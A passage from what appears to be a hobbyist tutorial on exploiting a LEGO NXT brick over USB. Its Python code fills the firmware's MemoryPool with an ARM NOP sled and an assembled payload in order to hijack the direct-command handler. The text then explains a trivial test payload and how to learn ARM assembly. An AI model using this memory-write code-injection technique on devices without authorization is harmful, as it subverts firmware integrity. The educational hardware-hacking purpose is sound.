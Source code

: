 ```python
    cmd = b'\x00\x03\xff\x00\xff\x00'
    dev.write(1, cmd)
    result = bytes(dev.read(0x82, 64))
    print(result)

CMD_MODULE = 0x00010001
CMD_OFF_FNPTR = 16
CMD_OFF_MEMPOOL = 52

subprocess.run(['arm-none-eabi-gcc', '-c', 'nxtpwn.s'], check=True)
subprocess.run(['arm-none-eabi-objcopy', '-O', 'binary', 'nxtpwn.o', 'nxtpwn.bin'], check=True)
with open('nxtpwn.bin', 'rb') as f:
    nxtpwn_code = f.read()
print("code", nxtpwn_code)
assert len(nxtpwn_code) % 4 == 0

ARM_NOP = 0xe1a00000
nop_len = 32*1024 - len(nxtpwn_code)

dev = usb.core.find(idVendor=0x0694, idProduct=0x0002)
dev.set_configuration()

print("filling memory...")
for i in range(nop_len // 4):
    iomap_w32(CMD_MODULE, CMD_OFF_MEMPOOL + i*4, ARM_NOP)
for i in range(len(nxtpwn_code) // 4):
    offs = nop_len + i*4
    val = struct.unpack("<I", nxtpwn_code[i*4:i*4+4])[0]
    iomap_w32(CMD_MODULE, CMD_OFF_MEMPOOL + offs, val)
```

This code invokes an ARM assembler to assemble code written in `nxtpwn.s` into binary data, fills most of the `MemoryPool` with `nop`s, and then writes the assembled code at the end.

<small>You will need to somehow install a copy of GCC and Binutils targeting ARM. Any reasonable version should do, but this is also part of "environment setup".</small>

To test this, we can write the most basic assembly code in `nxtpwn.s`:

```asm
bx lr
```

This is an empty function which doesn't do anything. If we redirect the direct command handler to it, all direct commands should stop working.

<p class="aside_q">How do you learn ARM assembly language?</p>

<div class="aside_a"><div>
<p>I personally learned ARM assembly from <a href="https://www.coranac.com/tonc/text/asm.htm">this tutorial</a> a long time ago. I generally think of "learning assembly" as consisting of at least two parts: learning how <em>all</em> CPUs work at a high level, and learning how one particular CPU architecture works.</p>
